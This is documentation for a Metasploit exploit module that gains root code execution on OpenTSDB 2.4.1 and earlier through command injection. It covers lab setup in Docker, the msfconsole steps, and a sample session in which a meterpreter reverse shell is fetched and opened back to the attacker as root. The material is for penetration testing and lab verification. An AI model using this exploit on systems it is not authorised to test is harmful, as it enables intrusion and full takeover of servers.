## Vulnerable Application
This module exploits an unauthenticated command injection vulnerability in OpenTSDB
through 2.4.1 (CVE-2023-36812/CVE-2023-25826) in order to achieve remote code execution as the root user.

The module first attempts to obtain the OpenTSDB version via the api. If the version is 2.4.1 or lower,
the module performs additional checks to obtain the configured metrics and aggregators.
It then randomly selects one metric and one aggregator and uses those to instruct the target server to plot a graph.
As part of this request, the key is set to the payload, which will then be executed by the target if the latter is vulnerable.

This module has been successfully tested against OpenTSDB version 2.4.1 running in Docker.

## Installation Information
### Manual Installation
For a manual installation, you can follow the official installation instructions [here](http://opentsdb.net/docs/build/html/installation.html).
This can be annoying though, so using Docker is recommended.

### Docker Installation
For version 2.4.0, you can use the vulhub Docker image and follow the installation instructions [here](https://github.com/vulhub/vulhub/tree/master/opentsdb/CVE-2020-35476).
That image was created for CVE-2020-35476, an older vulnerability in OpenTSDB through 2.4.0.

For any other version, you could leverage the vulhub image for OpenTSDB 2.4.0 and edit it to install the version you want. This approach was followed for 2.4.1.

Grab the vulhub OpenTSDB 2.4.0 `Dockerfile` and `docker-entrypoint.sh` from [here](https://github.com/vulhub/vulhub/tree/master/base/opentsdb/2.4.0) and store them in a dedicated directory.
In the `Dockerfile`, replace all instances for `2.4.0` with your desired version, e.g. `2.4.1`.
No edits are necessary for `docker-entrypoint.sh`.
Create a `docker-compose.yml` file with the following contents:
```yml
version: '2'
services:
  opentsdb:
    build: ./path-to-your-dockerfile-directory
    ports:
      - "4242:4242"
```

Example file structure:
```
wynter@wynter-pc:~/dev/opentsdb$ ls -lR
.:
total 8
-rw-rw-r-- 1 wynter wynter   86 Sep  1 10:55 docker-compose.yml
drwxrwxr-x 2 wynter wynter 4096 Sep  1 10:54 docker_file

./docker_file:
total 8
-rw-rw-r-- 1 wynter wynter 927 Sep  1 10:54 Dockerfile
-rw-rw-r-- 1 wynter wynter 359 Sep  1 10:35 docker-entrypoint.sh

wynter@wynter-pc:~/dev/opentsdb$ cat docker-compose.yml
version: '2'
services:
  opentsdb:
    build: ./docker_file
    ports:
      - "4242:4242"
```

Finally, build and run the image via `docker-compose` by running the below command in the directory with you `docker-compose.yml` file:
```bash
docker-compose up -d
```

After a few seconds, OpenTSDB will be available on port 4242. No additional configuration is required.

## Verification Steps
1. Start `msfconsole`
1. Do: `use exploit/linux/http/opentsdb_key_cmd_injection`
1. Do: `set RHOSTS [IP]`
1. Do: `set LHOST [IP]`
1. Do: `set SRVHOST [IP]`
1. Do: `set FETCH_SRVHOST [IP]`
1. Do: `exploit`

## Options
### TARGETURI
The base path to OpenTSDB. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   Linux
```

## Scenarios
### OpenTSDB 2.4.1 - Linux target
```
msf6 exploit(linux/http/opentsdb_key_cmd_injection) > options

Module options (exploit/linux/http/opentsdb_key_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      4242             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to OpenTSDB
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      yr               no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8081             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/opentsdb_key_cmd_injection) > run RHOSTS=127.0.0.1 LHOST=192.168.112.1

[*] Started reverse TCP handler on 192.168.112.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is OpenTSDB version 2.4.1
[*] Identified 3 configured metrics. Using metric sys.cpu.idle
[*] Identified 35 configured aggregators. Using aggregator none
[*] Executing the payload
[*] Sending stage (3045380 bytes) to 192.168.112.1
[*] Meterpreter session 9 opened (192.168.112.1:4444 -> 192.168.112.1:61423) at 2023-09-08 14:32:05 +0100

meterpreter > getuid
Server username: root
meterpreter > pwd
/usr/share/opentsdb
```
